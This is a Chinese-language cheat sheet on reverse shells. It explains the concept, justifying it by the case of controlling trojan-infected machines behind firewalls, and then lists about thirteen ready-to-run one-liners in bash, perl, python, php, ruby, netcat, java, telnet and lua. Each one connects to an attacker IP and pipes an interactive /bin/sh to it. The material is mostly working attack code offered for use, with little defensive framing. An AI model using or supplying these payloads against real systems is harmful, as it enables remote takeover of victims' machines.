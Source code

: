 ##### 什么是反弹shell？

反弹shell，就是控制端监听在某个tcp/udp端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。

##### 为什么需要反弹shell

1. 某客户机中了你的马，但是它在内网中，你不能直接对其进行连接
2. 客户机的IP是动态的会发生变化的，不能持续控制
3. 由于防火墙等限制，对方机器只能发送请求，不能接受请求
4. 对于病毒，木马，受害者什么时候中招，对方所处的网络环境是什么样的，什么时候开关机等情况都是未知的，所以需要建立一个服务端让而已程序主动连接

##### 反弹shell的一些前置知识

| 描述符                | 作用                                                         |
| --------------------- | ------------------------------------------------------------ |
| < 或 <<               | 标准输入，代码为0                                            |
| > 或 >>               | 标准输入出，代码为1                                          |
| 2> 或 2>>             | 标准错误输出，代码为2                                        |
| /dev/tcp[udp]/ip/port | Linux中的一个特殊设备，打开这个文件就相当于发出了一个socket调用，读写这个文件就相当于在这个socket连接中传输数据 |
| &>                    | &>跟2>&1是一个意思都是将标准错误输出合并到标准输出中         |



##### 反弹shell示例

被空端A: 192.168.10.112

```bash
bash -i >& /dev/tcp/192.168.7.108/8433
```

Note: -i 的意思是启动一个交互式的shell

控制端B: 192.168.7.108

```bash
nc -lvvp 8433
```



##### 反弹shell各种姿势

1. bash

```bash
bash -i >& /dev/tcp/192.168.7.101/8099
```

2. perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

3. perl不依赖/bin/sh

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"123.123.123.123:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

4. perl windows环境

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"123.123.123.123:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

5. Python2

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

6. php

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

7. ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

8. ruby windows环境

```ruby
ruby -rsocket -e 'c=TCPSocket.new("123.123.123.123","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

9. ruby不依赖sh

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("123.123.123.123","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

10. NC

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

11. java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tc
p/10.0.0.1/2002;cat <&5 | while read line; do
 \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

12. NC不可用或者/dev/tcp不可用时

```bash
mknod backpipe p && telnet 123.133.133.133 8080 0<backpipe | /bin/bash 1>backpipe
```

13. lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```



##### 参考链接

[反弹shell原理与实现](https://zhuanlan.zhihu.com/p/138393396)

[反弹SHELL介绍及原理](https://cloud.tencent.com/developer/article/1785076)

[反弹Shell，看这一篇就够了](https://xz.aliyun.com/t/9488)

[Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549#toc-0)

[Linux渗透之反弹Shell命令解析](https://www.anquanke.com/post/id/85712)

[Reverse Shell Cheat Sheet](https://www.lintstar.top/tools/Reverse-shell.html)

[反弹shell的各种姿势](https://www.cnblogs.com/xiaozi/p/13493010.html)



---

that's all

